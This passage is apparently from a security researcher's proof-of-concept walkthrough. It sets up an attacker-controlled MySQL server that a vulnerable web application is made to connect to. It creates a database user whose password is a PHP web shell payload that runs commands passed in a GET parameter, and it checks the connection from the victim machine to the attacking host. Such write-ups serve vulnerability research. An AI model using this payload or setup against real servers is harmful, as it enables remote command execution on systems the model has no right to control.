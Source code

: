 The file in which the default MySQL configuration is found can differ between distributions, but this can usually be done by editing `/etc/mysql/mysql.conf.d/mysqld.conf` and editing the `bind-address` property as per below:

```conf
# Instead of skip-networking the default is now to listen only on
# localhost which is more compatible and is not less secure.
bind-address            = 0.0.0.0 #127.0.0.1
```

After changing the binding, restart the service and use `netstat` to verify the change:

```shell_session
root@mysql:~# nano /etc/mysql/mysql.conf.d/mysqld.cnf
root@mysql:~# service mysql restart
root@mysql:~# netstat -an | grep 3306
tcp        0      0 0.0.0.0:3306            0.0.0.0:*               LISTEN     
root@mysql:~#
```

#### Creating The Shell User and Database
Once MySQL is configured to allow remote connections, the next step is to create a database and a user with remote access to said database.

Login to the MySQL shell using the `mysql` program, and then issue the commands below:

```shell_session
mysql> create database minecraft;
Query OK, 1 row affected (0.00 sec)

mysql> create user 'shell'@'%' identified by '";?><?=`$_GET[1]`?><?php //';
Query OK, 0 rows affected (0.01 sec)

mysql> create user 'shell'@'localhost' identified by '";?><?=`$_GET[1]`?><?php //';
Query OK, 0 rows affected (0.00 sec)

mysql> grant all on minecraft.* to shell@'%';
Query OK, 0 rows affected (0.00 sec)

mysql> grant all on minecraft.* to shell@'localhost';
Query OK, 0 rows affected (0.00 sec)
```

In the example above, two `shell` users are created; one with a wild card host and one with `localhost`; this is simply so testing the vulnerability locally will also work.

Once the user has been created, connectivity should be verified by establishing a MySQL connection **to** the attacking machine, **from** the vulnerable machine:

```shell_session
rastating@ubuntu:/var/www/html$ mysql -h 10.2.0.10 -u shell -p
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 12
Server version: 5.7.20-0ubuntu0.16.04.1 (Ubuntu)

Copyright (c) 2000, 2017, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> status
--------------
mysql  Ver 14.14 Distrib 5.7.20, for Linux (x86_64) using  EditLine wrapper

Connection id:        12
```